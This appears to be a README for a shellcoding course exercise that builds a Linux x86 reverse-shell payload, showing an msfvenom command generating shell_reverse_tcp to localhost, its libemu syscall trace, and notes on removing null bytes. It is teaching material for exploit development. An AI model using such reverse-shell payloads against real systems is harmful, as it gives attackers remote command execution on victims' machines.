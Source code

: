 # Exercise 2


## Usage

```
python3 wrapper.py $IP $PORT
```

![Screenshot](images/wrapper/2.png)

If there are not input variables, the program asks for them:

![Screenshot](images/wrapper/1.png)


Test with port 7777:

![Screenshot](images/wrapper/3.png)

Result:

![Screenshot](images/wrapper/4.png)


## Steps


### 1 - Get the syscalls with sctest

Get "sctest" result (also using *libemu.sh* script in **scripts/** folder):


```
msfvenom -p linux/x86/shell_reverse_tcp --platform=Linux -a x86 -f raw LPORT=8888 LHOST=127.0.0.1 | ./sctest -vvv -Ss 10000 -G reverseshell.dot
-------------------------------------

sh libemu.sh "msfvenom -p linux/x86/shell_reverse_tcp --platform=Linux -a x86 -f raw LPORT=8888 LHOST=127.0.0.1" reverseshell | tee libemu_res/libemu_res.txt
```

#### Result:

```
int socket (
     int domain = 2;
     int type = 1;
     int protocol = 0;
) =  14;
int dup2 (
     int oldfd = 14;
     int newfd = 2;
) =  2;
int dup2 (
     int oldfd = 14;
     int newfd = 1;
) =  1;
int dup2 (
     int oldfd = 14;
     int newfd = 0;
) =  0;
int connect (
     int sockfd = 14;
     struct sockaddr_in * serv_addr = 0x00416fbe => 
         struct   = {
             short sin_family = 2;
             unsigned short sin_port = 47138 (port=8888);
             struct in_addr sin_addr = {
                 unsigned long s_addr = 16777343 (host=127.0.0.1);
             };
             char sin_zero = "       ";
         };
     int addrlen = 102;
) =  0;
int execve (
     const char * dateiname = 0x00416fa6 => 
           = "//bin/sh";
     const char * argv[] = [
           = 0x00416f9e => 
               = 0x00416fa6 => 
                   = "//bin/sh";
           = 0x00000000 => 
             none;
     ];
     const char * envp[] = 0x00000000 => 
         none;
) =  0;
```

### 2 - Write every syscall in order

I will use the same values as the *sctest* output.

For thtat, first get the hexadecimal values for every syscall (for example, using *syscallhex.sh* script in **scripts/** folder):
```
cat /usr/include/i386-linux-gnu/asm/unistd_32.h | listen

printf "%x\n" 363

-------------------------------------

sh syscallhex.sh listen
```


## Deleting NOPs

First, there are NOPS:

![Screenshot](images/1.png)

One example is the use of [socket]:

![Screenshot](images/resd_problem/1.png)

Which creates these NOPS:

![Screenshot](images/resd_problem/2.png)

Using Sublime Text it is possible to replace them with "esi", a register which is not being used:

![Screenshot](images/resd_problem/3.png)

Then, it seems there are not more NOP values:

![Screenshot](images/resd_problem/4.png)

It is possible to check it using objdump (in this case through the script *clean.sh* from the **scripts/** folder) and grep:

![Screenshot](images/resd_problem/5.png)


## Adding text messages

![Screenshot](images/2.png)

![Screenshot](images/3.png)


## Argv tests
Get Argc value: 	
https://forum.nasm.us/index.php?topic=889.0
